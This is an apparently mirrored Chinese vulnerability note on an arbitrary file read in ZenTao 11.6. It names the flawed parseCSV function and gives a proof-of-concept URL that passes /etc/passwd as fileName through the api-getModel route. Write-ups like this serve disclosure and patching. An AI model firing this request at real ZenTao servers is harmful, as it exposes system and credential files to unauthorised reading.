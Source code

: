 # 禅道 11.6 任意文件读取

> 原文：[http://book.iwonder.run/0day/禅道/3.html](http://book.iwonder.run/0day/禅道/3.html)

## 一、漏洞简介

禅道项目管理软件是一款国产的，基于 LGPL 协议，开源免费的项目管理软件，它集产品管理、项目管理、测试管理于一体，同时还包含了事务管理、组织管理等诸多功能，是中小型企业项目管理的首选，基于自主的 PHP 开发框架──ZenTaoPHP 而成，第三方开发者或企业可非常方便的开发插件或者进行定制。 厂商官网：[https://www.zentao.net/](https://www.zentao.net/) 而此次发现的漏洞正是 ZenTaoPHP 框架中的通用代码所造成的的，因此禅道几乎所有的项目都受此漏洞影响

## 二、漏洞影响

禅道 11.6

禅道开源版 9 版本

## 三、复现过程

漏洞代码位于 module/file/model.php 中的 parseCSV 函数

![image](img/2169880c39beb95a0d0503655723d51b.png)

这里通过上面的思路同样可以对 fileName 进行赋值，最终返回读取的文件数据 漏洞 poc 为：

```
http://www.0-sec.org/zentaopms_11.6/www/api-getModel-file-parseCSV-fileName=/etc/passwd 
```

![image](img/2d4bfb9ae2a973ee6af066f9e2cc5cd4.png)


